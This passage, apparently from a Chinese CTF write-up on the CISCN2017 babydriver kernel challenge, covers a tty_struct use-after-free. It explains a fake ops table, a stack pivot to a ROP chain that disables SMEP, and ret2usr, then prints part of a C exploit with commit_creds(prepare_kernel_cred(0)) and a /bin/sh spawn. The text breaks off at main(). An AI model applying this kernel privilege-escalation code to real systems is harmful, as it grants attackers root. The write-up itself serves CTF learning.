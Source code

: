 大把的函数指针（ pwn 手的风水宝地），因此设想构造下图所示结构体
```
fake_tty_struct  fake_tty_operations
+---------+      +----------+
|magic    |  +-->|evil 1    |
+---------+  |   +----------+
|......   |  |   |evil 2    |
|......   |  |   +----------+
+---------+  |   |evil 3    |
|*ops     |--+   +----------+
+---------+      |evil 4    |
|......   |      +----------+
|......   |      |......    |
+---------+      +----------+
```
那么我们就可以通过不同的操作（如 `write, ioctl` 等）来跳转到不同的 evil 了。

对这道题目而言，因为开启了 smep 保护，因此如果想 ret2usr 提权，需要修改 cr4 的值，而控制函数指针是不够的，可以控制函数指针进行 stack pivot 等操作到我们排布 rop 链的空间，通过 rop 关闭 smep，进而进行后续操作。

> 这道题目没给 vmlinux，需要使用 [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) 解压内核镜像。

关闭 smep 保护后，就可以通过 rop 来为所欲为了，最终的 [exp](https://github.com/bash-c/pwn_repo/blob/master/CISCN2017_babydriver/uaf_tty_struct.c) 如下:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define prepare_kernel_cred_addr 0xffffffff810a1810
#define commit_creds_addr 0xffffffff810a1420

void* fake_tty_operations[30];

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}


void get_shell()
{
    system("/bin/sh");
}

void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred_addr;
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}
int main()
{
```